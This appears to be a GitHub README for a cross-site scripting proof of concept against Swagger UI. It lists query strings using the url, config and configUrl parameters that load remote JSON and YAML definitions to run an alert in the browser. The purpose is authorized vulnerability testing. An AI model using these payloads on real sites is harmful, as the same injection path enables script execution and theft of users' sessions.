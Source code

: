 ## Swagger UI XSS Proof of Concept

### Description

Swagger UI allows you to load externally sourced API definitions using the `?url=`, `?config=`, or `?configUrl=` parameters. When fields such as the description (`description`) in these definitions are processed without filtering HTML or JavaScript, an XSS (Cross-site Scripting) vulnerability may arise.

This PoC includes a minimal YAML and JSON file that triggers `alert(‘XSS-Found!’)` through the aforementioned vulnerability. By loading these files to Swagger UI instances intended for testing, XSS behavior can be observed.

---

### PoC Usage

Use the following query strings with a vulnerable Swagger UI path, such as:

`https://target-swagger.com/swagger/index.html?<QUERY>`

Example: https://target-swagger.com/swagger/index.html?configUrl=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.json

#### JSON-based PoC

?url=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.json

?config=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.json

?configUrl=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.json

#### YAML-based PoC

?url=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.yaml

?config=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.yaml

?configUrl=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.yaml


If the instance is vulnerable, the following will execute: alert("XSS-Found!")

---
For educational and authorized testing purposes only.
